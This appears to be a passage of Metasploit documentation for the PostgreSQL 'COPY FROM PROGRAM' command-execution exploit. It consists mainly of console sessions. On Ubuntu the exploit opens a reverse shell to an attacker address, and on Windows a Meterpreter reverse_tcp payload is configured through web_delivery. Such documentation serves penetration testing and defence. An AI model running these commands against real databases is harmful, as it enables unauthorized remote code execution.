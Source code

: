 
    Exploit target:

       Id  Name
       --  ----
       0   Automatic
    
     msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > exploit

    [*] Started reverse TCP handler on 192.168.0.18:4456
    [*] 192.168.0.25:5432 - 192.168.0.25:5432 - PostgreSQL 11.2 (Ubuntu 11.2-1.pgdg18.04+1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 7.3.0-27ubuntu1~18.04) 7.3.0, 64-bit
    [*] 192.168.0.25:5432 - Exploiting...
    [+] 192.168.0.25:5432 - 192.168.0.25:5432 - msftesttable dropped successfully
    [+] 192.168.0.25:5432 - 192.168.0.25:5432 - msftesttable created successfully
    [+] 192.168.0.25:5432 - 192.168.0.25:5432 - msftesttable copied successfully(valid syntax/command)
    [+] 192.168.0.25:5432 - 192.168.0.25:5432 - msftesttable dropped successfully(Cleaned)
    [*] 192.168.0.25:5432 - Exploit Succeeded
    [*] Command shell session 2 opened (192.168.0.18:4456 -> 192.168.0.25:51784) at 2019-03-24 18:07:11 +0000

    whoami
    postgres
    uname -a
    Linux ubuntu 4.15.0-45-generic #48-Ubuntu SMP Tue Jan 29 16:28:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    /usr/lib/postgresql/11/bin/postgres -V
    postgres (PostgreSQL) 11.2 (Ubuntu 11.2-1.pgdg18.04+1)

### Exploiting PostgreSQL 10.7 on Windows 10

    msf exploit(multi/script/web_delivery) > set target 2
    target => 2
    msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(multi/script/web_delivery) > set LHOST 192.168.0.18
    LHOST => 192.168.0.18
    msf exploit(multi/script/web_delivery) > show options

    Module options (exploit/multi/script/web_delivery):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT  8080             yes       The local port to listen on.
       SSL      false            no        Negotiate SSL for incoming connections
       SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH                   no        The URI to use for this exploit (default is random)


    Payload options (windows/meterpreter/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.0.18     yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
